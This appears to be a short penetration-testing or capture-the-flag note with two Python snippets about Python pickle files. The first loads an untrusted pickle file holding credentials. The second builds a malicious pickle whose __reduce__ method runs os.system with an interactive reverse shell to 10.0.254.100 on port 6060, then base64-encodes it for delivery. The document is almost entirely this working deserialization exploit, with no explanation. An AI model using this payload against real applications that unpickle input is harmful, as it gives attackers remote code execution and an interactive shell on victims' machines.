 

Read pickle


```python
import pickle
with open("download.dat", "rb") as file:
    pickle_data = file.read()
    creds = pickle.loads(pickle_data)
    print(creds)
```

Create pickle

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("sh -i >& /dev/tcp/10.0.254.100/6060 0>&1",))
print(base64.b64encode(pickle.dumps(P())))
```
